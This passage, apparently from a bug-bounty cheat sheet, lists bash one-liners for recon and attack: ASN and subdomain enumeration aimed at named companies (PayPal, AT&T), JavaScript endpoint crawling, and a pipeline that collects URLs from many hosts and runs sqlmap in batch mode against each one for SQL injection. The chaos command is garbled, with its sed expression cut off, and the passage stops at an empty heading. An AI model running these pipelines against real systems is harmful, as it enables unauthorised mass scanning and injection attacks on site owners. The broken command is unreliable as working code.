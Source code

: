 ###  Search Asn Amass

- [Explaining command]

Amass intel will search the organization "paypal" from a database of ASNs at a faster-than-default rate. It will then take these ASN numbers and scan the complete ASN/IP space for all tld's in that IP space (paypal.com, paypal.co.id, paypal.me)

```bash
amass intel -org paypal -max-dns-queries 2500 | awk -F, '{print $1}' ORS=',' | sed 's/,$//' | xargs -P3 -I@ -d ',' amass intel -asn @ -max-dns-queries 2500''
```

###  SQLINJECTION Mass domain file

- [Explaining command]

```bash

httpx -l domains -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```


###  Using chaos search js


- [Explaining command]

Chaos is an API by Project Discovery that discovers subdomains. Here we are querying thier API for all known subdoains of "att.com". We are then using httpx to find which of those domains is live and hosts an HTTP or HTTPs site. We then pass those URLs to GoSpider to visit them and crawl them for all links (javascript, endpoints, etc). We then grep to find all the JS files. We pipe this all through anew so we see the output iterativlely (faster) and grep for "(http|https)://att.com" to make sure we dont recieve output for domains that are not "att.com".

```bash
chaos -d att.com | httpx -silent | xargs -I@ -P20 sh -c 'gospider -a -s "@" -d 2' | grep -Eo "(http|https)://[^/"].*.js+" | sed "s#]
```

###  Search Subdomain using Gospider


- [Explaining command]

GoSpider to visit them and crawl them for all links (javascript, endpoints, etc) we use some blacklist, so that it doesn’t travel, not to delay, grep is a command-line utility for searching plain-text data sets for lines that match a regular expression to search HTTP and HTTPS

```bash
gospider -d 0 -s "https://site.com" -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

###  Using gospider to chaos

